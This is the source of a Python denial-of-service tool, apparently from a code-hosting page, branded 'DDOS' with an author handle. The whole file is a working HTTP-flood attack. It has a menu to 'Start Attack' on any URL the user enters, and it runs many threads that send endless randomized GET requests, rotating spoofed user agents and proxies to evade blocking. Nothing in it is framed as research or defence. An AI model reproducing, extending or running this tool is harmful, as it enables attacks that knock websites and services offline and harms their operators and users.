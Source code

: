 #!/usr/bin/env python3
import threading
import requests
import random
import string
import time
import sys

# Colors
class bcolors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKCYAN = '\033[96m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'
    SCARY = '\033[5;31;40m'  # Make it look scary

def print_title():
    title = """
{}█
▓█████▄ ▓█████▄  ▒█████    ██████ 
▒██▀ ██▌▒██▀ ██▌▒██▒  ██▒▒██    ▒ 
░██B   █▌░██   L█▌▒██░A  ██▒░K ▓██▄   25
░▓█▄   ▌░▓█▄   ▌▒██   ██░  ▒   ██▒
░▒████▓ ░▒████▓ ░ ████▓▒░▒██████▒▒Telegram:Black25
Black25 -_- *_* #######$#$##user:;@Bhyt6_5
 ▒▒▓  ▒  ▒▒▓  ▒ ░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░
 ░ ▒  ▒  ░ ▒  ▒   ░ ▒ ▒░ ░ ░▒  ░ ░
 ░ ░  ░  ░ ░  ░ ░ ░ ░ ▒  ░  ░  ░  
   ░       ░        ░ ░        ░  
 ░       ░                        (BLACK  )
{}""".format(bcolors.SCARY, bcolors.ENDC)
    print(title)

# Lists for user agents and proxies
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1',
    # Add more user agents here for better randomization
]

proxies_list = [
    'http://192.168.1.1:8080', 'http://51.158.68.133:8811', 'http://178.128.163.157:3128',
    # Add more proxies here for better randomization
]

# Generate random data to send as GET parameters
def random_string(length=8):
    letters = string.ascii_letters + string.digits
    return ''.join(random.choice(letters) for i in range(length))

# Create realistic HTTP headers
def random_headers():
    headers = {
        'User-Agent': random.choice(user_agents),
        'Accept-Language': 'en-US,en;q=0.9',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'keep-alive'
    }
    return headers

# Function to perform HTTP GET request with random parameters and headers
def perform_attack(target_url, num_threads, use_proxies):
    def attack():
        try:
            while True:
                params = {random_string(): random_string() for _ in range(random.randint(5, 10))}  # Create random number of parameters
                headers = random_headers()
                
                if use_proxies:
                    proxy = {'http': random.choice(proxies_list), 'https': random.choice(proxies_list)}
                    response = requests.get(target_url, params=params, proxies=proxy, headers=headers)
                    print(f"{bcolors.OKGREEN}Request sent: {response.status_code}, Params: {params}, Proxy: {proxy}, Headers: {headers['User-Agent']}{bcolors.ENDC}")
                else:
                    response = requests.get(target_url, params=params, headers=headers)
                    print(f"{bcolors.OKGREEN}Request sent: {response.status_code}, Params: {params}, Headers: {headers['User-Agent']}{bcolors.ENDC}")
                
                time.sleep(random.uniform(0.05, 0.2))  # Add random delay to reduce load and make requests look natural
        except Exception as e:
            print(f"{bcolors.FAIL}Error: {e}{bcolors.ENDC}")

    # Create and launch threads
    threads = []
    for i in range(num_threads):
        thread = threading.Thread(target=attack)
        thread.start()
        threads.append(thread)

    # Join threads (optional)
    for thread in threads:
        thread.join()

def main_menu():
    print_title()
    while True:
        print(f"{bcolors.WARNING}1. Start Attack{bcolors.ENDC}")
        print(f"{bcolors.OKCYAN}2. Add User Agent{bcolors.ENDC}")
        print(f"{bcolors.OKBLUE}3. Add Proxy{bcolors.ENDC}")
        print(f"{bcolors.HEADER}4. Check Number of Proxies{bcolors.ENDC}")
        print(f"{bcolors.SCARY}5. Reset and Delete All Proxies{bcolors.ENDC}")
        print(f"{bcolors.OKGREEN}6. Check Number of User Agents{bcolors.ENDC}")
        print(f"{bcolors.SCARY}7. Reset and Delete All User Agents{bcolors.ENDC}")
        print(f"{bcolors.FAIL}8. Exit{bcolors.ENDC}")
        choice = input(f"{bcolors.OKGREEN}Enter Your Choice :{bcolors.ENDC}")

        if choice == '1':
            target_url = input(f"{bcolors.OKBLUE}Enter the target URL: {bcolors.ENDC}")
            num_threads = int(input(f"{bcolors.OKBLUE}Enter the number of threads: {bcolors.ENDC}"))
            use_proxies = input(f"{bcolors.OKBLUE}Use proxies? (yes/no): {bcolors.ENDC}").strip().lower() == 'yes'
            perform_attack(target_url, num_threads, use_proxies)
        elif choice == '2':
            user_agent = input(f"{bcolors.OKCYAN}Enter a user agent: {bcolors.ENDC}")
            user_agents.append(user_agent)
            print(f"{bcolors.OKCYAN}User agent added.{bcolors.ENDC}")
        elif choice == '3':
            proxy = input(f"{bcolors.OKGREEN}Enter a proxy (format: http://IP:PORT): {bcolors.ENDC}")
            proxies_list.append(proxy)
            print(f"{bcolors.OKGREEN}Proxy added.{bcolors.ENDC}")
        elif choice == '4':
            print(f"{bcolors.WARNING}Number of proxies: {len(proxies_list)}{bcolors.ENDC}")
        elif choice == '5':
            proxies_list.clear()
            print(f"{bcolors.FAIL}All proxies have been deleted.{bcolors.ENDC}")
        elif choice == '6':
            print(f"{bcolors.BOLD}Number of user agents: {len(user_agents)}{bcolors.ENDC}")
        elif choice == '7':
            user_agents.clear()
            print(f"{bcolors.UNDERLINE}All user agents have been deleted.{bcolors.ENDC}")
        elif choice == '8':
            print(f"{bcolors.ENDC}Exiting...")
            sys.exit()
        else:
            print(f"{bcolors.FAIL}Invalid choice. Please try again.{bcolors.ENDC}")

if __name__ == "__main__":
    main_menu()

